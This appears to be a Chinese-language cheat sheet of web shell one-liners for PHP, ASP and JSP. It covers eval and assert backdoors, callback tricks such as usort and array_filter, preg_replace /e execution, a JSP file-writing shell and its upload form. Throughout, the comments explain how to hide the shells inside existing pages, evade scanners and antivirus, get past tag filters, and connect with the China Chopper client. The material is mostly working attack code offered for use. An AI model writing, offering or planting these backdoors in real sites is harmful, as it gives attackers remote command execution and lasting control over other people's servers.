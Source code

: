     <?php 
    //?cmd=phpinfo()
    $cmd=$_GET['cmd'];
    $array[0]=$cmd;
    call_user_func_array("assert",$array);
    ?>
    
    <?php 
    //?func=system&cmd=whoami
    $cmd=$_GET['cmd'];
    $array1=array($cmd);
    $func =$_GET['func'];
    array_filter($array1,$func);
    ?>
    
    <?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
    <?php usort(...$_GET);?>  php环境>=5.6才能用
    <?php eval($_POST1);?> 
    <?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
    <?php system($_REQUEST1);?> 
    <?php ($_=@$_GET1).@$_($_POST1)?> 
    <?php eval_r($_POST1)?> 
    <?php @eval_r($_POST1)?>//容错代码 
    <?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
    <?$_POST['c']($_POST['cc']);?> 
    <?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
    <?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
    <?php echo `$_GET['r']` ?> 
    
    <script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话
    
    <?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！
    
    <?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
    加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！
    
    <%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
    无防下载表，有防下载表可尝试插入以下语句突破的一句话 
    
    <%eval(request(“1″)):response.end%> 备份专用
    
        

JSP马

    ##JSP：
    <%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%> 
    提交客户端 
    <form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>`
    
        

ASP马
